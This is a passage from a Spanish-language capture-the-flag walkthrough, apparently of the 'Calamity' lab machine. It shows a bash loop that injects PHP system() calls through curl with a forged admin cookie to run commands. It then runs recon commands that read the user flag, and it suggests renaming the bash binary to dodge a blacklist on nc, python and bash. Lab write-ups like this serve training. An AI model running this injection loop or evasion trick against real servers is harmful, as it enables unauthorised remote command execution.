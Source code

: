 ```bash
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 50:19

Tambien se podria utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Analizando el servidor {-}

```bash
whoami
ifconfig
ls -l
ls -l /home
ls -l /home/xalvas
cat /home/xalvas/user.txt
```

Encontramos el usuario **xalvas** y ya podemos leer la flag.

La pregunta aqui seria: Porque no nos deja entablar una reverse shell? Porque el sistema nos expulsa cuando lo hacemos?

El comando 
```bash
 ls -l /home/xalvas 
```
 nos muestra ficheros. En el fichero 
```bash
 intrusions 
```
 vemos lo siguiente

```bash
cat /home/xalvas/intrusions
```


![calamity-itrusios](/assets/images/calamity-intrusions.png) 
Vemos que el comando 
```bash
 nc 
```
 esta BlackListeado y que logea el Proccess Kill en este fichero. El problema de esto es que se puede
que los comandos BlackListeados se controlan con los nombres mismo (no permite 
```bash
 nc, python, bash 
```
). Pero que pasa si copiamos el 
binario bash y que le ponemos un nombre diferente.
